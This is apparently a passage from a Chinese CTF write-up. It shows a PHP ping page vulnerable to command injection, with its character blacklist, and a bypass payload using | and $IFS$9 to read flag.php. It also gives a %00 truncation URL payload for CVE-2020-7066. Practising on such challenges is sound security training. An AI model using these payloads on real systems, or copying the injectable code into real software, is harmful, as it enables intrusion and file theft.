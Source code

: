 ```php
<?php

require ('./page.html');
if (!empty($_POST)) {
    header("content-type:text/html;charset=utf-8");
    $ip = $_POST['ip'];

    $as = "/ \/|\~|\!|\@|\#|\%|\^|\&|\*|\(|\)|\_|\+|\{|\}|\:|\<|\>|\?|\[|\]|\,|\/|\;|\'|\-|\=\| /";
    if (preg_match($as, $ip)) {
        highlight_file(__FILE__);
        die("Don't hack me!!!!!");
    }elseif (preg_match("/\s/", $ip)){
        highlight_file(__FILE__);
        die("Don't hack me!!!!!");
    }elseif (strstr($ip,"fl")){
        highlight_file(__FILE__);
        die("Don't hack me!!!!!");
    }
    $a = shell_exec("ping -c 4 " . $ip);
    echo "<pre>";
    print_r($a);
    echo "</pre>";
} Don't hack me!!!!!
```

用|隔断命令，最后构造出payload

```
127.0.0.1|cat$IFS$9f\lag.php
```







### cve-2020-7066

#### 考点：cve-2020-7066漏洞

看到cve直接百度查找这个漏洞的相关记录

其实就是get_header()的CVE。这个函数特点就是会去请求url并返回header头部。**但是CVE告诉我们，如果是用%00截断，就可能让命令去请求用户的可控网址。**

提示本地访问，那就直接127.0.0.1

```
/?url=http://127.0.0.1%00www.example.php
```
